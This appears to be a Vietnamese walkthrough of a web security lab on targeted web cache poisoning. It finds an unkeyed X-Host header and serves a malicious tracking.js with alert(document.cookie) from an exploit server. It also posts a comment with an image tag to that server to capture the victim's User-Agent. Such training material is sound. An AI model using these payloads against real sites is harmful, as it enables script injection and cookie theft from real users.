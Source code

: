 ## Targeted web cache poisoning using an unknown header

1. Sử dụng tool param miner trong burp suite để xác định unkeyed header.

![Img1](\asset/../img/unkeyed_header.png)

2. Xác định được 2 header `origin` và `x-host` là unkeyed input. Khi thử cho x-host một giá trị bất kỳ nhận thấy giá trị đó được reflect lại trong response 

![Img2](\asset/../img/reflect.png)

3. Craft trang exploit để endpoint là `/resources/js/tracking.js` và body có nội dung: `alert(document.cookie)` để khi load trang comment sẽ include file `tracking.js` trên exploit server.

4. Ngoài ra trường `Vary` còn cho chúng ta biết header `User-Agent` là một key cache, do đó khi cùng một request nhưng có giá trị của `User-Agent` header khác nhau thì sẽ phân biệt với nhau. Bởi vì thế mà khai thác chỉ thành công ở phía attacker.

5. Do victim sẽ đọc mọi comment nên ta sẽ gửi một comment với một tag html gửi một request đến trang exploit server để rồi bắt được log chứa thông tin victim.
- Payload : `<image src="https://exploit-0ae200c404fe3cb9c00d2b7901f600e1.exploit-server.net/resources/js/tracking.js"/>`

6. Trong access log của exploit server nhận được thông tin của victim với thông tin mà ta cần `User-Agent` header để khai thác  web cache poison

![Img3](\asset/../img/log.png)

7. Thay đổi giá trị `User-Agent` trong request thành giá trị của victim 

![Img4](\asset/../img/done.png)